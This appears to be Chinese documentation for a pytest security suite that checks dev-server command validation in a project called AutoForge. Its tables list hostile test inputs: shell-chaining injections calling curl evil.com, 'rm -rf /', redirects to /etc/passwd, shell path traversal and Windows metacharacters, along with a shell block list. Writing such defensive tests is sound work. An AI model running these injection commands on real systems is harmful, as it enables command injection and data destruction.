

# `test_devserver_security.py` -- 开发服务器安全测试

> 源文件路径: `test_devserver_security.py`

## 功能概述

本文件是 AutoForge 开发服务器命令验证与安全加固的测试套件，使用 pytest 框架编写，通过 `python -m pytest test_devserver_security.py -v` 运行。测试覆盖了两个主要安全组件：路由层的命令验证函数 (`validate_custom_command_strict`) 和服务层的危险操作拦截 (`DevServerProcessManager.start`)。

开发服务器允许用户通过 UI 启动自定义开发命令（如 `npm run dev`、`uvicorn main:app`），但必须严格限制可执行的命令范围以防止命令注入攻击。本测试验证了以下安全策略：仅允许特定的运行器（npm/pnpm/yarn/python/uvicorn/flask/cargo/go/poetry）、仅允许特定的 npm 脚本（dev/start/serve/preview）、阻止所有 Shell 解释器、阻止危险的 Python 执行模式（`python -c`）、阻止 Shell 元字符注入、以及验证 uvicorn 的标志白名单。

测试特别关注对抗性输入（路径遍历、类型混淆、大小写绕过、Windows 特殊字符），确保验证逻辑在各种攻击向量下都能正确拦截。

## 依赖关系

### 导入依赖

| 模块 | 说明 |
|------|------|
| `sys` | 模块路径设置 |
| `pathlib.Path` | 文件路径操作 |
| `pytest` | 测试框架（参数化、fixture、异常断言） |
| `server.routers.devserver.ALLOWED_NPM_SCRIPTS` | 被测允许的 npm 脚本名常量 |
| `server.routers.devserver.ALLOWED_PYTHON_MODULES` | 被测允许的 Python 模块常量 |
| `server.routers.devserver.ALLOWED_RUNNERS` | 被测允许的运行器常量 |
| `server.routers.devserver.BLOCKED_SHELLS` | 被测阻止的 Shell 常量 |
| `server.routers.devserver.validate_custom_command_strict` | 被测命令验证函数 |
| `server.services.dev_server_manager.DevServerProcessManager` | 被测开发服务器进程管理器 |

### 被依赖

| 模块 | 引用内容 |
|------|----------|
| 无 | 本文件为独立测试，未被其他模块引用 |

## 测试场景

### `TestValidCommands` -- 合法命令验证

验证所有应当被放行的开发服务器命令不会抛出异常：

| 测试方法 | 验证命令 | 说明 |
|----------|----------|------|
| `test_npm_run_dev` | `npm run dev` | npm 开发模式 |
| `test_npm_run_start` | `npm run start` | npm 启动命令 |
| `test_npm_run_serve` | `npm run serve` | npm 服务命令 |
| `test_npm_run_preview` | `npm run preview` | npm 预览命令 |
| `test_pnpm_dev` | `pnpm dev` | pnpm 简写形式 |
| `test_pnpm_run_dev` | `pnpm run dev` | pnpm 完整形式 |
| `test_yarn_start` | `yarn start` | yarn 启动命令 |
| `test_yarn_run_serve` | `yarn run serve` | yarn 服务命令 |
| `test_uvicorn_basic` | `uvicorn main:app` | uvicorn 基础用法 |
| `test_uvicorn_with_flags` | `uvicorn main:app --host 0.0.0.0 --port 8000 --reload` | uvicorn 带标志 |
| `test_uvicorn_flag_equals_syntax` | `uvicorn main:app --port=8000 --host=0.0.0.0` | uvicorn 等号语法 |
| `test_python_m_uvicorn` | `python -m uvicorn main:app --reload` | Python 模块模式 |
| `test_python3_m_uvicorn` | `python3 -m uvicorn main:app` | Python3 模块模式 |
| `test_python_m_flask` | `python -m flask run` | Flask 模块模式 |
| `test_python_m_gunicorn` | `python -m gunicorn main:app` | Gunicorn 模块模式 |
| `test_python_m_http_server` | `python -m http.server 8000` | 内置 HTTP 服务器 |
| `test_python_script` | `python app.py` | Python 脚本执行 |
| `test_python_manage_py_runserver` | `python manage.py runserver` | Django 开发服务器 |
| `test_flask_run` | `flask run` | Flask CLI |
| `test_flask_run_with_options` | `flask run --host 0.0.0.0 --port 5000` | Flask 带选项 |
| `test_poetry_run_command` | `poetry run python app.py` | Poetry 运行命令 |
| `test_cargo_run` | `cargo run` | Rust Cargo |
| `test_go_run` | `go run .` | Go 运行 |

### `TestBlockedShells` -- Shell 解释器拦截

- **`test_blocked_shell`**: 参数化测试，验证 7 种 Shell（sh/bash/zsh/cmd/powershell/pwsh/cmd.exe）全部被拦截
- **关键断言**: 抛出 `ValueError`，消息包含 "runner not allowed"

### `TestBlockedCommands` -- 危险命令拦截

| 测试方法 | 场景 | 预期错误 |
|----------|------|----------|
| `test_empty_command` | 空字符串 | "cannot be empty" |
| `test_whitespace_only` | 纯空白字符 | "cannot be empty" |
| `test_python_dash_c` | `python -c 'import os; ...'` | "python -c is not allowed" |
| `test_python3_dash_c` | `python3 -c 'print(1)'` | "python -c is not allowed" |
| `test_python_no_script_or_module` | `python --version` | "must use" |
| `test_python_m_disallowed_module` | `python -m pip install` | "not allowed" |
| `test_unknown_runner` | `curl http://evil.com` | "runner not allowed" |
| `test_rm_rf` | `rm -rf /` | "runner not allowed" |
| `test_npm_arbitrary_script` | `npm run postinstall` | "npm custom_command" |
| `test_npm_exec` | `npm exec evil-package` | "npm custom_command" |
| `test_pnpm_arbitrary_script` | `pnpm run postinstall` | "pnpm custom_command" |
| `test_yarn_arbitrary_script` | `yarn run postinstall` | "yarn custom_command" |
| `test_uvicorn_no_app` | `uvicorn --reload` | "must specify an app" |
| `test_uvicorn_disallowed_flag` | `uvicorn main:app --factory` | "flag not allowed" |
| `test_flask_no_run` | `flask shell` | "flask custom_command" |
| `test_poetry_no_run` | `poetry install` | "poetry custom_command" |

### `TestInjectionAttempts` -- 注入攻击防御

| 测试方法 | 攻击向量 | 说明 |
|----------|----------|------|
| `test_shell_via_path_traversal` | `/bin/sh -c 'echo hacked'` | 绝对路径绕过 |
| `test_shell_via_relative_path` | `../../bin/bash -c whoami` | 相对路径遍历 |
| `test_none_input` | `None` | 空值注入 |
| `test_integer_input` | `123` | 类型混淆 |
| `test_python_dash_c_uppercase` | `python -C 'exec(evil)'` | 大小写绕过 |
| `test_powershell_via_path` | `C:\Windows\System32\powershell.exe` | Windows 路径绕过 |

### `TestDangerousOpsBlocking` -- Shell 元字符拦截

通过 `DevServerProcessManager.start()` 方法验证 Shell 操作符拦截：

| 参数化描述 | 命令 | 元字符 |
|------------|------|--------|
| double ampersand | `npm run dev && curl evil.com` | `&&` |
| single ampersand | `npm run dev & curl evil.com` | `&` |
| double pipe | `npm run dev \|\| curl evil.com` | `\|\|` |
| single pipe | `npm run dev \| curl evil.com` | `\|` |
| semicolon | `npm run dev ; curl evil.com` | `;` |
| backtick | `` npm run dev `curl evil.com` `` | `` ` `` |
| dollar paren | `npm run dev $(curl evil.com)` | `$()` |
| output redirect | `npm run dev > /etc/passwd` | `>` |
| input redirect | `npm run dev < /etc/passwd` | `<` |
| caret escape | `npm run dev ^& calc` | `^` (Windows) |
| percent env | `npm run %COMSPEC%` | `%` (Windows) |

额外测试：
- **`test_blocks_newline_injection`**: 换行符注入 (`\n`)
- **`test_blocks_carriage_return`**: 回车符注入 (`\r\n`)
- **`test_blocks_shell_runners`**: 6 种 Shell 在进程管理器层面也被拦截
- **`test_blocks_empty_command`**: 空命令
- **`test_blocks_whitespace_command`**: 纯空白命令

### `TestConstants` -- 安全常量完整性

- **`test_all_common_shells_blocked`**: 7 种常见 Shell 全部在 `BLOCKED_SHELLS` 中
- **`test_common_npm_scripts_allowed`**: 4 种开发脚本在 `ALLOWED_NPM_SCRIPTS` 中
- **`test_common_python_modules_allowed`**: 3 种 Python 模块在 `ALLOWED_PYTHON_MODULES` 中
- **`test_common_runners_allowed`**: 9 种运行器在 `ALLOWED_RUNNERS` 中

## 测试覆盖范围

- 命令验证函数（合法命令放行 + 危险命令拦截）
- Shell 解释器拦截（7 种 Shell）
- Python 执行模式限制（`-c` 阻止、模块白名单、脚本/manage.py 允许）
- npm/pnpm/yarn 脚本白名单（dev/start/serve/preview）
- uvicorn 标志白名单和应用参数要求
- Flask/Poetry 子命令限制
- 注入攻击防御（路径遍历、类型混淆、大小写绕过、Windows 路径）
- Shell 元字符拦截（11 种操作符 + 换行符）
- 进程管理器层面的双重验证
- 安全常量完整性验证

## Fixtures 和辅助函数

| 名称 | 类型 | 说明 |
|------|------|------|
| `TestDangerousOpsBlocking.manager` | pytest fixture | 创建 `DevServerProcessManager` 实例，使用 `tmp_path` 作为项目目录，隔离每个测试 |

## 架构图

## 注意事项

- 本测试实现了纵深防御验证：命令验证在路由层 (`validate_custom_command_strict`) 和服务层 (`DevServerProcessManager.start`) 两个层面分别进行，`TestDangerousOpsBlocking` 专门测试服务层的元字符拦截
- `TestInjectionAttempts` 包含了真实的攻击向量（路径遍历、类型混淆），这些是安全审计中常见的测试模式
- Windows 特殊字符（`^&`、`%COMSPEC%`）也被测试覆盖，确保跨平台安全
- `uvicorn --factory` 标志被显式拦截——这是一个安全敏感标志，允许动态加载任意 Python 工厂函数
- `TestDangerousOpsBlocking` 使用 `pytest.mark.asyncio` 装饰器，因为 `DevServerProcessManager.start()` 是异步方法
- npm 脚本白名单仅包含开发相关脚本（dev/start/serve/preview），`postinstall` 等生命周期脚本被显式拦截以防止供应链攻击
